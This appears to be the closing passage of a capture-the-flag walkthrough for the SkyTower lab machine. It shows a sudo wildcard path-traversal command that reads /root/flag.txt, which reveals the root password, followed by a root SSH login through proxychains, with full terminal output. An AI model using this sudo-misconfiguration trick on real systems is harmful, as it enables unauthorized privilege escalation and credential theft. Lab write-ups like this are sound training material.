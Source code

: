 After racking my brain for some time, I found a rather simple solution. According to the `sudo` requirement, our command should start with `sudo /bin/ls /accounts/*`. What will happen if we try navigating to other folders using `\..\`. 

```bash
sara@SkyTower:/accounts$ sudo /bin/ls /accounts/../
accounts  bin  boot  dev  etc  home  initrd.img  lib  lib64  lost+found  media  mnt  opt  proc  root  run  sbin  selinux  srv  sys  tmp  usr  var  vmlinuz
sara@SkyTower:/accounts$ sudo /bin/ls /accounts/../root/
flag.txt
sara@SkyTower:/accounts$ sudo /bin/cat /accounts/../root/flag.txt
Congratz, have a cold one to celebrate!
root password is theskytower
```
It WORKS! and the `root` password is in there.

## Root Shell

Login using the credentials we got from the flag file.

```bash
kali@kali:~$ proxychains ssh root@192.168.100.3
ProxyChains-3.1 (http://proxychains.sf.net)
|S-chain|-<>-192.168.100.3:3128-<><>-192.168.100.3:22-<><>-OK
root@192.168.100.3's password: 
Linux SkyTower 3.2.0-4-amd64 #1 SMP Debian 3.2.54-2 x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Jun 20 09:01:28 2014
root@SkyTower:~# ud
-bash: ud: command not found
root@SkyTower:~# id
uid=0(root) gid=0(root) groups=0(root)
root@SkyTower:~# cat /root/flag.txt 
Congratz, have a cold one to celebrate!
root password is theskytower
root@SkyTower:~# 
```

And we are root.